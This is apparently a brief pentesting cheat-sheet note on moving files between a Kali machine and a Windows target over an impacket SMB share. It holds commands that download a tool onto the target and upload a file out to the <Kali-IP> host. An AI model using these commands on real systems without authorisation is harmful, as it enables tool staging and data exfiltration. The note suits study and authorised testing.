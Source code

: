 # SMB Share

### 1) On Kali, create an SMB Server using impacket

    impacket-smbserver -smb2support <share_name> <directory>

### 2) Transfer files using the copy command on Windows machine

    Download: copy \\<Kali-IP>\<share_name>\tool.exe

    Upload: copy notes.txt \\<Kali-IP>\<share_name>\
